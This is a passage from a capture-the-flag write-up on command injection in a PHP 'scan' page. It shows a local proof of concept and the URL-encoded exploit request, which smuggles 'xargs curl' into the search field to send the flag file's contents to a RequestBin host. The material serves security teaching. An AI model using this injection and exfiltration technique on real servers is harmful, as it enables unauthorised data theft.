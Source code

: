If we can get the actual flag value into the URL in place of 'flagflagflag' we're set.

To do this we'll `curl` the file into `xargs` and use that to build a second `curl` command which will hit RequestBin. `xargs` can take piped input and place it in the text of other commands.

Our local POC,

```
root@kali ~/A/c/09# curl file:///tmp/flag.txt | grep flag | xargs -I {} curl http://requestbin.fullcontact.com/1m06f111/{}
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    19  100    19    0     0  19000      0 --:--:-- --:--:-- --:--:-- 19000
ok
```

![RCE Cornucopia](/img/rce-cornucopia/rce9-004.png)

Success!

Now for the real deal. Search the URL `file:///tmp/flag.txt` for the string `flag | xargs -I {} curl http://requestbin.fullcontact.com/1m06f111/{}`

```
http://127.0.0.1:8089/index.php?url=file%3A%2F%2F%2Ftmp%2Fflag.txt&string=flag+%7C+xargs+-I+%7B%7D+curl+http%3A%2F%2Frequestbin.fullcontact.com%2F1m06f111%2F%7B%7D&submit=Scan
```

![RCE Cornucopia](/img/rce-cornucopia/rce9-005.png)

